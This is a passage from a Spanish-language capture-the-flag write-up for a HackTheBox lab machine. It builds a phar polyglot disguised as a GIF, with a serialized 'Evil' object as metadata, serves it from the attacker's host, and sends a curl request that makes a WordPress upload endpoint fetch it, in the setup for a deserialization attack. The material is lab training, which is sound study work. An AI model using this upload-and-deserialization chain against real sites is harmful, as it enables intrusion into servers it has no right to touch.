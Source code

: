 ~~~ php
$phar->setStub("GIF89a\n<?php __HALT_COMPILER(); ?>");  
  
// add object of any class as meta data  
$object = new Evil();  
$phar->setMetadata($object);  
$phar->stopBuffering();
~~~

Crearemos nuestro archivo `phar` ejecutando el archivo `evil.php`. Por defecto, PHP impide crear archivos `.phar` con permisos de escritura, es por eso que establecemos el valor en `0`

~~~ bash
php --define phar.readonly=0 evil.php  
strings evil.phar

GIF89a  
<?php __HALT_COMPILER(); ?>  
O:4:"Evil":0:{}  
test.txt  
text  
WJFP5  
GBMB
~~~

En este caso usaremos la función `__HALT_COMPILER()` para separar el contenido serializado, esto permitirá que se los datos se interpreten cuando usemos un wrapper `phar://`

> La palabra `GIF89a` es clave para que nuestro archivo sea procesado como un `GIF`
{: .notice--info}

Crearemos un servidor HTTP con `python3` en nuestra máquina atacante con el fin de servir el archivo `evil.phar` para que pueda ser consultado por la máquina víctima

~~~ bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Ahora enviaremos la siguiente solicitud para enviar nuestra imagen falsa al servidor

~~~ bash
curl http://blog.bigbang.htb/wp-admin/admin-ajax.php -H 'Content-Type: application/x-www-form-urlencoded' -d 'action=upload_image_from_url&id=1&accepted_files=image/gif&url=http://10.10.15.9/evil.phar'

{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/05\/1.png","attachment_id":161}# 
~~~

Podremos comprobar explorando el directorio `/uploads`

![[Pasted image 20250501174935.png]]

La solicitud se ha ejecutado correctamente, entonces habremos recibido una solicitud a nuestro archivo `evil.phar`
